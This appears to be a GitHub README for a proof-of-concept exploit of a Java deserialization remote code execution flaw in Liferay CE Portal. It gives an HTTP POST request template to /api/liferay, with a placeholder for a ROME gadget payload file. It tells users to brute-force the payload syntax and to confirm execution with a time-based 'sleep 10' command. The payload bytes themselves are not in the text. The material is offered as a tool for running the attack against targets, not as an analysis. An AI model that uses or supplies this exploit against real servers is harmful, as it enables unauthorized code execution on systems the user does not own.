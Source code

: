 # Liferay-CE-Portal-Java-Deserialization
This repo contains PoC for the remote code execution vulnerability of Liferay CE Portal!

# Payloads
I already shared payloads in repo. You must find the right syntax by brute-force method.Payloads I share are for time-based proof of concept (sleep 10). The application may not always output the command. That's why you should try time-based payload while doing PoC.

# Proof Of Concept

- POST /api/liferay HTTP/1.1
- Host: TARGET  
- User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:72.0) 
- Accept: text/html,application/xhtml+xml,application/xml;q=0.9
- Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
- Accept-Encoding: gzip, deflate
- Connection: close


ROME-PAYLOAD-FILE

# Example PoC (sleep 10)

![](https://berk.red/assets/rce.png)
